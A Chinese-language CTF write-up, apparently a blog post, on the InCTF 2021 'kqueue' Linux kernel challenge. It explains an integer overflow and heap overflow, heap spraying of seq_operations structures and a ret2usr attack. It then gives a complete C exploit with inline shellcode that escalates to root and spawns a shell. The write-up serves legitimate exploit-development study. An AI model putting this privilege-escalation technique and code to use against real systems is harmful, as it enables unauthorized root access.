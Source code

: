 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "InCTF 2021 kqueue 复现(heap overflow)"
author: wsxk
date: 2022-10-25
comments: true
---
```


## 题目分析<br>
原件可以在[https://github.com/teambi0s/InCTFi/tree/master/2021/Pwn/Kqueue](https://github.com/teambi0s/InCTFi/tree/master/2021/Pwn/Kqueue)里下载。<br>
这道题是给了源码的，可以通过查看源码来观察该ko文件到底做了些什么。<br>
从源文件中可以看到，kqueue这道题目只提供了一个ioctl接口，根据其中输入的`cmd`，以及传入的request来创造`queue`<br>
这道题目的每个函数看起来check很多，其实——都没有什么卵用，原因可以看代码:
```c
static long err(char* msg){
    printk(KERN_ALERT "%s\n",msg);
    return -1;
}
```
可以看到，用来报错的`err`函数，其并不会结束程序的流程，反而会让程序继续运行，就在内核缓冲区里打了个报错消息。<br>
因而存在了整型溢出问题以及堆溢出的问题。<br>

## 利用思路<br>
首先，这道题目并没有开启`smap/smep`以及`kpti`<br>
但是开启了`kaslr`<br>
> 1. step1:利用整型溢出
> > 因为程序中的判断都是`i < request.max_entries+1`，这种情况下，可以使得max_entries为0xffffffff来造成溢出，而又因为max_entries很大造成访问越界。
> 2. step2:heap overflow + heap spray提高命中率
> > `save_kqueue_entries`函数中可以进行越界操作，其调用了`char *new_queue = validate((char *)kzalloc(queue->queue_size,GFP_KERNEL));`创建了0x20大小的chunk，但是` validate(memcpy(new_queue,queue->data,request.data_size));`确实根据我们传入的data_size来对队列进行拷贝操作。因为0x20大小的chunk在`kamlloc-32`中，而内核中` seq_operations`结构体的大小刚刚好为0x20，换句话说，他们和new_queue分配在同一个page的概率十分大，可以通过heap overflow来覆盖`seq_operations`中的函数指针。
> > > 
> > 可以通过`open("/proc/self/stat", O_RDONLY);`函数多次创建`seq_operations`结构体，然后使用通过`save_queue_entries`的溢出覆盖其中一个`seq_operations`的内容。<br>
> 3. step3: ret2usr 劫持控制流
> >  `seq_operations`的 中的函数指针可以改成用户态的shell地址。但是因为不知道内核的基地址（开启了kaslr），但是也有解决办法，利用栈的调用机制，在内核`call`了`seq_operations`的函数后，会把调用地址压栈。<br>

根据对vmlinux的逆向以及linux源码分析，判断调用发生在
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221027190833.png)<br>
（该位置是seq_read）的函数地址。<br>
随后我们可以根据该地址和`prepare_kernel_cred`和`commit_cred`的偏移得到真实地址。<br>

## exp<br>
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

long dev_fd;
size_t root_rip;
typedef struct{
    u_int32_t max_entries;
    u_int16_t data_size;
    u_int16_t entry_idx;
    u_int16_t queue_idx;
    char* data;
}request_t;

void create_queue(u_int32_t max_entries, u_int16_t data_size)
{
    request_t req = 
    {
        .max_entries    = max_entries,
        .data_size      = data_size,
    };
    ioctl(dev_fd, 0xDEADC0DE, &req);
}

void edit_queue(u_int16_t queue_idx,u_int16_t entry_idx,char *data)
{
    request_t req =
    {
        .queue_idx  = queue_idx,
        .entry_idx  = entry_idx,
        .data       = data,
    };
    ioctl(dev_fd, 0xDAADEEEE, &req);
}

void delete_queue(u_int16_t queue_idx)
{
    request_t req = 
    {
        .queue_idx = queue_idx,
    };
    ioctl(dev_fd, 0xBADDCAFE, &req);
}

void save_queue(u_int16_t queue_idx,u_int32_t max_entries,u_int16_t data_size)
{
    request_t req =
    {
        .queue_idx      = queue_idx,
        .max_entries    = max_entries,
        .data_size      = data_size,
    };
    ioctl(dev_fd, 0xB105BABE, &req);
}

void shellcode(void)
{
    __asm__(
        "mov r12, [rsp + 0x8];"
        "sub r12, 0x201179;"
        "mov r13, r12;"
        "add r12, 0x8c580;"  // prepare_kernel_cred
        "add r13, 0x8c140;"  // commit_creds
        "xor rdi, rdi;"
        "call r12;"
        "mov rdi, rax;"
        "call r13;"
        "swapgs;"
        "mov r14, user_ss;"
        "push r14;"
        "mov r14, user_sp;"
        "push r14;"
        "mov r14, user_rflags;"
        "push r14;"
        "mov r14, user_cs;"
        "push r14;"
        "mov r14, root_rip;"
        "push r14;"
        "iretq;"
    );
}




int main(){
    size_t  data[0x20];
    long  seq_fd[0x200];

    save_status();
    root_rip = get_root_shell;
    dev_fd = open("/dev/kqueue",O_RDONLY);
    if (dev_fd < 0){
        printf("FAILED to open the dev!\n");
        exit(-1);
    }
    for (int i = 0; i < 0x20; i++)
        data[i] = (size_t) shellcode;
    create_queue(0xffffffff,8*0x20);
    edit_queue(0,0,data);
    for (int i = 0; i < 0x200; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    save_queue(0,0,0x40);
    for (int i = 0; i < 0x200; i++){
        printf("seq num%d\n",i);
        read(seq_fd[i], data, 1);
    }
}
```


## references<br>
[https://bbs.pediy.com/thread-269031.htm](https://bbs.pediy.com/thread-269031.htm)<br>
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x05-Kernel-Heap-Heap-Overflow](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x05-Kernel-Heap-Heap-Overflow)<br>
